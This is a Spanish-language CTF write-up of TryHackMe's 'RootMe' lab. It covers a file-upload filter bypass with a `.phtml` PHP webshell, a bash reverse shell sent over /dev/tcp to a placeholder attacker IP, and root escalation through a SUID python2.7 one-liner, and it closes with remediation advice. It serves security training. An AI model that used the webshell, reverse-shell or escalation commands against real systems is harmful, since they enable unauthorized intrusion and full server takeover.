# Informe Técnico – Desafío "RootMe" (TryHackMe)

## 1. Objetivo y descripción del laboratorio

El objetivo de este laboratorio fue comprometer una máquina Linux vulnerable alojada en la plataforma TryHackMe (sala **RootMe**), obteniendo acceso inicial a través de una vulnerabilidad de subida de archivos sin restricción adecuada, y escalando privilegios hasta obtener acceso como `root`.

El ejercicio se realizó íntegramente dentro del entorno autorizado de TryHackMe, usando la AttackBox proporcionada por la plataforma.

> **Nota sobre las flags:** por política de la plataforma y buenas prácticas, las flags (`user.txt` y `root.txt`) no se exponen en texto completo en este repositorio. Se incluyen capturas que acreditan su obtención sin revelar el contenido completo.

## 2. Herramientas utilizadas

| Herramienta | Propósito |
|---|---|
| `gobuster` | Enumeración de directorios y rutas ocultas en el servidor web |
| `curl` | Interacción manual con el formulario de subida de archivos y ejecución remota de comandos vía webshell |
| `netcat (nc)` | Listener para recibir la conexión de la reverse shell |
| `python3` / `python2.7` | Estabilización de la shell (`pty.spawn`) y explotación del binario SUID para escalar privilegios |
| Navegador / `curl -v` | Inspección del código fuente HTML del panel de subida |

## 3. Metodología y etapas

### 3.1 Reconocimiento

Se inició con un escaneo de puertos y servicios con `nmap`:

```bash
nmap -sV <IP_OBJETIVO>
```



Resultado: dos puertos abiertos — `22/tcp` (SSH, OpenSSH 8.2p1 Ubuntu) y `80/tcp` (HTTP, Apache 2.4.41 Ubuntu).

Con el puerto 80 identificado, se realizó un escaneo de directorios sobre el servidor web con `gobuster`:

```bash
gobuster dir -u http://<IP_OBJETIVO> -w /usr/share/wordlists/dirb/common.txt
```



**Resultados relevantes:**

| Ruta | Status | Observación |
|---|---|---|
| `/panel` | 301 | Redirección a un panel con formulario de subida de archivos |
| `/uploads` | 301 | Directorio destino de los archivos subidos |
| `/index.php` | 200 | Página principal |
| `/css`, `/js` | 301 | Recursos estáticos |
| `/.htaccess`, `/.htpasswd`, `/server-status` | 403 | Bloqueados por configuración del servidor (no explotables) |

Al inspeccionar `/panel/` se identificó un formulario HTML:

```html
<form action="" method="POST" enctype="multipart/form-data">
    <input type="file" name="fileUpload" class="fileUpload">
    <input type="submit" value="Upload" name="submit">
</form>
```



El servidor fue identificado como **Apache/2.4.41 (Ubuntu)**, con soporte PHP.

### 3.2 Identificación de la vulnerabilidad

Se intentó subir un archivo `.php` con el siguiente contenido (webshell básico):

```php
<?php system($_GET['cmd']); ?>
```

El servidor rechazó la subida con el mensaje: `"PHP não é permitido!"` — lo que evidenció un **filtro de extensión basado en blacklist**, que únicamente bloqueaba la extensión literal `.php`.

Se creó el archivo con extensión alternativa `.phtml`, aún interpretada como código PHP por Apache/mod_php:



```bash
curl -X POST http://<IP_OBJETIVO>/panel/ -F "fileUpload=@shell.phtml" -F "submit=Upload"
```



Al corregir el comando, la subida fue exitosa: `"O arquivo foi upado com sucesso!"`, devolviendo la ruta `/uploads/shell.phtml`.

**Vulnerabilidad identificada:** *Unrestricted File Upload* (CWE-434), con bypass de filtro de extensión mediante extensiones alternativas ejecutables por el intérprete PHP (`.phtml`).

### 3.3 Explotación

**Confirmación de RCE (Remote Code Execution):**

```bash
curl "http://<IP_OBJETIVO>/uploads/shell.phtml?cmd=id"
```

Resultado: ejecución de comandos del sistema con el usuario `www-data` (`uid=33(www-data)...`).



**Obtención de reverse shell:**

```bash
# Listener en la máquina atacante
nc -lvnp 4444
```



```bash
# Disparo de la reverse shell vía el webshell subido
curl -G "http://<IP_OBJETIVO>/uploads/shell.phtml" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1'"
```



Se recibió conexión entrante como `www-data`.

**Estabilización de la shell (TTY completa):**

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
# Ctrl+Z
stty raw -echo; fg
```



### 3.4 Enumeración post-explotación

Se enumeraron los usuarios del sistema (`/home/`): `rootme`, `test`, `ubuntu`.

Se localizó la primera flag en:

```
/var/www/user.txt
```

**Búsqueda de vector de escalada de privilegios** — binarios con bit SUID:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Entre los resultados, se identificó un binario **anómalo** respecto a una instalación estándar:

```
/usr/bin/python2.7
```

Un intérprete de Python con el bit SUID activo es una mala práctica crítica, ya que permite ejecutar código arbitrario con los privilegios del propietario del archivo (root).

**Vulnerabilidad identificada:** *Privilege Escalation vía binario SUID mal configurado* (CWE-250 – Execution with Unnecessary Privileges).

### 3.5 Escalada de privilegios

Aprovechando la técnica documentada en [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid):

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
```



Esto otorgó una shell con privilegios de `root`, confirmado con:

```bash
whoami
id
```

Se localizó y accedió a la flag final en `/root/root.txt` (comando ejecutado sin mostrar el contenido de la flag, por política de no exposición):



## 4. Vulnerabilidades encontradas e impacto

| # | Vulnerabilidad | Causa raíz | Impacto potencial en producción |
|---|---|---|---|
| 1 | Subida de archivos sin restricción (Unrestricted File Upload) | Validación de tipo de archivo basada en blacklist de extensiones, fácilmente evadible | Ejecución remota de código (RCE) por parte de un atacante no autenticado, compromiso total del servidor web |
| 2 | Falta de segmentación de ejecución en el directorio de subidas | El directorio `/uploads` permite ejecución de scripts PHP | Cualquier archivo subido se convierte en código ejecutable en el servidor |
| 3 | Binario SUID mal configurado (`python2.7`) | Asignación innecesaria del bit SUID a un intérprete de scripting | Escalada de privilegios local trivial de cualquier usuario del sistema (incluido `www-data`) a `root` |

## 5. Evidencias

Las evidencias (capturas de pantalla) de cada etapa —enumeración con gobuster, bypass del filtro de subida, obtención de RCE, reverse shell, estabilización de la TTY, hallazgo del binario SUID y escalada a root— se encuentran en la carpeta [`/evidencias`](./evidencias) de este repositorio. Las flags no se muestran en texto completo, solo capturas que confirman su lectura exitosa.

## 6. Remediaciones recomendadas

### Para la vulnerabilidad de subida de archivos
- **Validar por lista blanca (whitelist)**, no por blacklist: permitir únicamente extensiones estrictamente necesarias (ej. `.jpg`, `.png`, `.pdf`).
- **Validar el contenido real del archivo** (magic bytes / MIME type del lado del servidor), no solo la extensión del nombre.
- **Renombrar los archivos subidos** con un identificador aleatorio y sin extensión controlada por el usuario.
- **Almacenar los archivos subidos fuera del document root**, o en un volumen/bucket sin permisos de ejecución.
- **Deshabilitar la ejecución de scripts** en el directorio de subidas mediante configuración del servidor web, por ejemplo en Apache:
  ```apache
  <Directory "/var/www/html/uploads">
      php_admin_flag engine off
      RemoveHandler .php .phtml .php5 .pht
  </Directory>
  ```

### Para el binario SUID mal configurado
- Aplicar el **principio de mínimo privilegio**: remover el bit SUID de binarios que no lo requieran, especialmente intérpretes de propósito general:
  ```bash
  chmod u-s /usr/bin/python2.7
  ```
- Auditar periódicamente el sistema en busca de binarios SUID no estándar:
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```
- Mantener el sistema actualizado y eliminar paquetes/intérpretes obsoletos (Python 2.7 está fuera de soporte desde enero de 2020).

### Generales
- Implementar un WAF (Web Application Firewall) para detectar patrones de subida de webshells.
- Ejecutar el servicio web con un usuario de mínimos privilegios y sin acceso de escritura a directorios críticos.
- Monitorear y alertar sobre conexiones salientes inusuales (indicativas de reverse shells).

## 7. Conclusiones y aprendizajes

Este laboratorio permitió reforzar el flujo completo de un pentest a una aplicación web: desde el reconocimiento de superficie de ataque (directorios y servicios expuestos), pasando por la identificación y explotación de una vulnerabilidad de subida de archivos mediante bypass de filtro por extensión, hasta la escalada de privilegios aprovechando una mala configuración de permisos SUID.

Los principales aprendizajes fueron:
- Los filtros de validación basados únicamente en la extensión del archivo son insuficientes y fácilmente evadibles con extensiones alternativas interpretadas por el mismo motor (`.phtml`, `.php5`, `.pht`, etc.).
- La correcta configuración de permisos del sistema de archivos (en particular el bit SUID) es crítica: un solo binario mal configurado puede anular por completo cualquier medida de seguridad previa.
- La combinación de varias vulnerabilidades de severidad aparentemente moderada (upload inseguro + binario SUID) puede derivar en un compromiso total del sistema (RCE + privilege escalation a root).

## Autor

Informe elaborado como parte de una actividad práctica de ciberseguridad ofensiva, laboratorio "RootMe" de TryHackMe.
